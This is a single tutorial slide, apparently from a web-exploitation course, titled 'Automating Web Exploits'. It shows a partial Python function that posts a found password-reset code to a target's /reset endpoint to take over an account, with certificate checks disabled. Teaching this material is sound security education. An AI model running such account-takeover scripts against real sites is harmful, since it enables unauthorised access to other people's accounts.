

Web (cont.)
Basic Web : Automating Web Exploits
First, we will reset the password.
Once we find the password reset code, we proceed further to change the password to NEW_PASSWORD.
import secrets
...
NEW_PASSWORD = secrets.token_hex(8)
...
def reset_password(target_url, s, email):
...
    res = s.post(target_url + "/reset", {
        "_token": token,
        "token": password_reset_code,
        "password": NEW_PASSWORD,
        "password_confirmation": NEW_PASSWORD
        }, verify=False, proxies=PROXIES)
    if("Password changed successfully" in res.text):
        print("[+] The password has been changed successfully!")
        print("[+] The new password:", NEW_PASSWORD)
    else:
        print("[-] Couldn't reset the password for unknown reasons :(")
        sys.exit(-1)
23